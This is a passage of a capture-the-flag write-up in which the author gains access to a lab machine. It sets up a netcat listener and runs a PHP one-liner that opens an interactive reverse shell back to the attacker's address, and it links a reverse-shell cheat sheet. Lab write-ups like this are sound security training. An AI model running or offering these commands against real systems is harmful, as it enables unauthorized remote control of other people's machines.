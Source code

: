 <img style="float: left;" src="screenshots/screenshot6.png">

The room states that there are two possible ways to exploit this: **Setting up a reverse shell**, or using the ```find``` command to find hidden password files within the system. Personally, I will be trying to set up a reverse shell.

<br>

First, we set up a **netcat** listener on our localhost using ```nc -lvnp 1234```.

Next, following an online reverse-shell cheatsheet: [**https://highon.coffee/blog/reverse-shell-cheat-sheet/**](https://highon.coffee/blog/reverse-shell-cheat-sheet/)**,** we run the following command:

 ```
 php -r '$sock=fsockopen("10.4.6.205",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
 ```

This opens a PHP reverse shell. There were many other options in the cheatsheet, but I chose the PHP one as I had success with it before.

<img style="float: left;" src="screenshots/screenshot7.png">

And with that, we were able to run a  reverse shell and gain access into the target machine.
